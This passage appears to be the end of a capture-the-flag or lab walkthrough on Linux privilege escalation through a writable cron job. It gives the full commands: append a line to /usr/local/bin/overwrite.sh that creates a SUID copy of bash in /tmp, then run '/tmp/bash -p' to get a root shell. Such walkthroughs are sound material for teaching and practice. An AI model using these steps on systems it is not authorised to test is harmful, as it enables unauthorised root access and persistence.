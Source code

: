 The file 'overwrite.sh' will be executed every minute of every hour of every day of every month and every day of the week. After running
~~~
ls -la /usr/local/bin/overwrite.sh 
~~~
We see that we can write to this file, so let's abuse this and get a root shell.
Type the following command.
~~~
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
~~~
After 1 minute execute:
~~~
/tmp/bash -p
~~~
And you will be dropped into a root shell.

Hope you enjoyed this guide.
